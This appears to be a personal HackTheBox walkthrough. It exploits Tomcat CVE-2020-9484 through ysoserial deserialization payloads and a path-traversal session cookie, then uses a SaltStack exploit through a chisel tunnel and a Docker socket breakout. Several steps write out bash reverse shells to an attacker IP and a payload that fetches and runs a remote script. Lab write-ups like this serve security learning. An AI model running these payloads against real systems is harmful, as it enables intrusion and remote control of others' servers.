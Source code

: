 HackTheBox
# Scan
![[Pasted image 20240401181810.png]]

# Uploading files
When trying to upload a file, it accepts all extension, even whithout any, however when there is no filename, there is an error.

![[Pasted image 20240402175526.png]]

Testing email: *test@tes    t.com* We have an error as well:
![[Pasted image 20240402175654.png]]
It seems that the upload folder is */opt/samples/uploads* but we don't have access to this

Considering the errors and nmap scan result, this service uses **Apache 9.0.27** which is vulnerable

https://github.com/PenTestical/CVE-2020-9484

Explanation of CVE-2020-9484
https://www.prismosystems.com/blog/cve-2020-9484#:~:text=Exploitation%20Details%20of%20CVE%2D2020%2D9484&text=The%20vulnerability%20resides%20in%20Persistent,of%20the%20attacker%2Dcontrolled%20object.

If *JSSESIONID=../../../../../tmp/test* , at first the manager will verify if this is in memory, is not Persistance Manager (if configured) check if this is stored in disk in the path as *"sessionid".session*

It will look in that path as test.session, as we know that probably .session file will be stored in */opt/samples/uploads* so we can create the payload:

*JSESSIONID=../../../../opt/samples/uploads/file*

Using a *filename=file.session*, in this maner as JSESSIONID doesn't exist in memory, Pesistance Manager wil look for add the extension .session to file, we wiil look for *file.session* in upload *file* and as there is a coincidence, it will execute *file.session*

Using Vulnerable Serialization
#VulnerableSerialization
![[Ysoserial]]

Tyring a ping test, we craft a payload loading a file *ping.session*

`java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 'ping -c 1 10.10.14.70' > ping.session`

We can now upload *pin.session* to the vulnerable web server.

### Execution of the payload
We can call this file directly by using *curl* and to get the pin response, we wait for a response by using *tcpdump* tool, the vulnerable JSESSIONID receives the storage path of the application and Persistant manager adds '.session' at the end
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping"
````

However, we don't receive anything

![[Pasted image 20240403082426.png]]
### Using CommonsCollections2
````
java -jar ysoserial-all.jar CommonsCollections2 'ping -c 1 10.10.14.70' > ping2.session
````
![[Pasted image 20240403155457.png]]
After loaded, we lunch the curl:
`curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping2"`

Now we receive the ICMP

**Note:** It's necessary to have a JSESSION ID to load the file so at first we must try with different payloads or load many time until get one, if not it won't work.

## Remote Code execution

We can send a reverse shell in three steps:
### 1. Generating the reverse shell
By leveraging curl, we can upload by a web server in our side by crafting an *index.html* file with a reverse shell:

`#!/bin/bash`
`bash -i >& /dev/tcp/10.10.14.70/4443 0>&1`

Creating the file, after uploaded to the file
 java -jar ysoserial-all.jar CommonsCollections2 'curl 10.10.14.70 -o /dev/shm/reverse.sh' > pwned.session

````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned"
````

We get a GET request so we can infer it was executed and 
![[Pasted image 20240403160836.png]]
### 2. Giving execution permission
````
 java -jar ysoserial-all.jar CommonsCollections2 'chmod +x /dev/shm/reverse.sh' > pwned2.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned2"
````
### 3. Generating the shell
````
 java -jar ysoserial-all.jar CommonsCollections2 '/dev/shm/reverse.sh' > pwned3.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned3"
````

curl must be executing with the port 4443 already listening

![[Pasted image 20240403163214.png]]

## Privilege Escalation
We can exploit pkexec but it's not the purpose of this machine 
`find \-perm -4000 2>/dev/null`
![[Pasted image 20240403163952.png]]

Reviewing internal ports
`netstat -nat`

![[Pasted image 20240403164128.png]]

## SaltStak exploitation
Ports 4505 and 4506 were not found in nmap scam

https://www.exploit-db.com/exploits/48421

![[Pasted image 20240403171344.png]]

For this exploit we need to have installed module *salt*

As ports 4505 and 4506 are open internally, we can have access to them by chisel 
Uloading chisel:
![[Pasted image 20240403172222.png]]

Creating the tunnel:
![[Pasted image 20240403172333.png]]

Adding to /etc/proxychains.conf

![[Pasted image 20240403172430.png]]

### Using the exploit with proxychains

`proxychains python3 ssaltstack_exploit.py`

Testing command execution with the exploit:
`proxychains python3 ssaltstack_exploit.py --exec "ping 10.10.14.70"`
![[Pasted image 20240403172910.png]]

### Creating a shell to the container
We test as first `"bash -c 'bash -i >& /dev/tcp/10.10.14.70/4443 0>&1'"` but it doesn't work, considering using *'* at the beginning and *"* in the inner bash.

`proxychains python3 saltstack_exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.70/4443 0>&1"'`

![[Pasted image 20240403173313.png]]

## Docker Container breakout
[[Docker Breakout]]

Checking files and *history* of the machine  
- The `history` command in Linux is a powerful feature used primarily in command-line interfaces (CLI) to display a list of commands that have been previously entered by the user in the current session or saved in a user's history file
We found a curl to *docker.sock* to list images

![[Pasted image 20240403175021.png]]
we only have access to this with *--unix-sockets*

We can see the same information prettier by sending to the attacker machine

![[Pasted image 20240403180537.png]]
![[Pasted image 20240403180522.png]]

We can try as well:
`curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json`

To get access to dockers from the main machine, we don't have permissions but we can confirm that the path is /file/run/docker that is found in the container
![[Pasted image 20240403180841.png]]

## Writable Docker Socket
We already found an image called *sandbox:latest* 

![[Writable Docker Socket (docker.sock)]]